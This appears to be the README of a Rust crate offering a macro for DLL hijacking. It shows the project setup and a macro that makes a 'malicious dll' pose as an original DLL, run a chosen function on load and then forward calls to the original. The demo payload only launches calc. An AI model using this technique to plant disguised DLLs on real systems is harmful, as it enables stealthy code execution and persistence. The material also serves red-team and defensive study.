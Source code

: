 # dll-hijack
Dll hijack -- just one macro

## usage
1. Create a lib project
    ```shell
    cargo new demo --lib
    ```

2. Modify Cargo.toml
   ```toml
   [package]
   name = "demo"
   version = "0.1.0"
   edition = "2021"
   
   # See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html
   
   [lib]
   crate-type = ["cdylib"]
   
   [dependencies]
   dll-hijack = "1.0.0"
   ```
   
3. Modify lib.rs
   1. Write a function that will be executed when the dll is loaded
       ```rust
      use std::process;
      
       fn test() {
           process::Command::new("calc").spawn().unwrap();
       }
       ```
      
   2. Set the original dll name and evil dll name using macros
      ```rust
      use std::process;
      use dll_hijack::hijack;

      #[hijack("nio.dll", "nio.dll.1")]
      fn test() {
          process::Command::new("calc").spawn().unwrap();
      }
      ```

The malicious dll will be disguised as the original dll, and the malicious dll will execute the malicious function first when loaded.

Then the request for the malicious dll will be forwarded to the original dll.